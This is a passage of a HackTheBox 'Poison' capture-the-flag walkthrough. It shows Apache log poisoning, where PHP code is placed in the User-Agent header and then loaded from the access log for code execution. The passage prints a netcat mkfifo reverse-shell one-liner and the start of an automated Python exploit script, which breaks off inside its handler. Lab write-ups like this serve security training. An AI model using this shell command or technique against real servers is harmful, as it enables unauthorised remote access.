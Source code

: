 First, we need to find where the logs are stored in this box, and with that we can try to poison it. The ideia of the attack is to poison the log by any way, because we know that probably it's going to be loaded by the web app as php file. If we can insert some php code there, we can get RCE and a reverse shell!

We already know that the root web is in `/usr/local/www/apache24/data/`

And we found both of them

```
ErrorLog "/var/log/httpd-error.log"
CustomLog "/var/log/httpd-access.log" combined
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-20-HackTheBox-Poison/2021-12-20-HackTheBox-Poison%2001:19:18.png)

And we see that we can control the User-Agent string, which is in the log

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-20-HackTheBox-Poison/2021-12-20-HackTheBox-Poison%2001:20:33.png)

So, if we put some dangerous code in the User-Agent, it will be loaded as php!

And here we go

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-20-HackTheBox-Poison/2021-12-20-HackTheBox-Poison%2001:21:46.png)

He have RCE!

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-20-HackTheBox-Poison/2021-12-20-HackTheBox-Poison%2001:22:06.png)

And reverse shell

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-20-HackTheBox-Poison/2021-12-20-HackTheBox-Poison%2003:03:02.png)

# Auto Reverse Shell

And here it's automated

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-20-HackTheBox-Poison/2021-12-20-HackTheBox-Poison%2003:34:35.png)

auto_pwn_poison.py

```py
#!/usr/bin/python3
# Exploit for Poison - HackTheBox
# Author: 0x4rt3mis

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import urllib.parse

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```
